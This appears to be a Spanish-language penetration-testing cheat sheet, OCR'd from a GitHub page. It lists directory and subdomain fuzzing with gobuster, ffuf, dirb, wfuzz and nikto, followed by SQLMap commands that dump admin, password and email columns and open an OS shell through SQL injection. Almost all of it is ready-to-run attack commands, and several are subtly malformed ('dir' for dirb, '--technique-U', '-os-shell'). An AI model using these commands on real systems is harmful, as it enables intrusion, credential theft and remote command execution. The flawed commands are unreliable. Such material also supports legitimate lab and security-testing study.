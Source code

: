 ```bash
$ gobuster dir -u http://192.168.1.10/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 20
```

Fuzzing de directorios con `ffuf`

```bash
$ ffuf -c -u <URL>/FUZZ -w <WORDLIST> -t 20
```

Ejemplo:

```bash
$ ffuf -u http://192.168.1.10/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 20
```

Fuzzing de directorios con `dirb`

```bash
$ dirb <URL> <WORDLIST>
```

Ejemplo:

```bash
$ dir http://192.168.1.10/ /usr/share/wordlists/dirb/common.txt
```

Fuzzing subdominios con `wfuzz`

```bash
$ wfuzz -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H 'Host: FUZZ.target.com' --hw 324 http://target
```

Enumeración con `nikto`

```bash
$ nikto -h URL
```

Ejemplo:

```bash
$ nikto -h http://192.168.1.10/
```

## Explotación Web

#### SQLMap (SQL Injection)

```bash
$ sqlmap -u <URL> -p <PARAMETER> [options]
```

```bash
$ sqlmap -u http://192.168.1.10/index.php?id=10 --dbs                                           # Lista todas las base de datos
$ sqlmap -u http://192.168.1.10/index.php?id=10 -D test --tables                                # Muestra todas las tablas en la base de datos
$ sqlmap -u http://192.168.1.10/index.php?id=10 -D test -T users --columns                      # Lista todas las columnas
$ sqlmap -u http://192.168.1.10/index.php?id=10 -D test -T users -C admin,password,email --dump # Muestra los valores de las columnas indicadas
$ sqlmap -u 'http://192.168.1.10/index.php?id=10' -p id --technique-U                           # Enumera el parámetro id usando la técnica union
$ sqlmap -u 'http://192.168.1.10/index.php?id=31' --dump                                        # Devulve el contenido de la base de datos
$ sqlmap -u 'http://192.168.1.10/index.php?id=7' -os-shell                                      # Lanza un prompt interativo
```

